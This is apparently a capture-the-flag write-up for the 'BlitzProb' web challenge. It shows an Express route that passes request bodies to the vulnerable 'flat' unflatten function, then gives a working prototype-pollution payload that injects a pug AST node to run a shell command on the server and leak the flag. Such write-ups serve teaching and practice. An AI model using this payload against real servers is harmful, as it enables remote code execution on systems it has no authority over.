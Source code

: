 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contained a Prototype Pollution to RCE via AST Injection. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/blitzProb_web.png#center)

## Vulnerability
Going through the source code, we can see in the file `routes/index.js` that the function "unflatten" is called after receiving a post request:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the static directory of the web server. After visiting `static/js/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶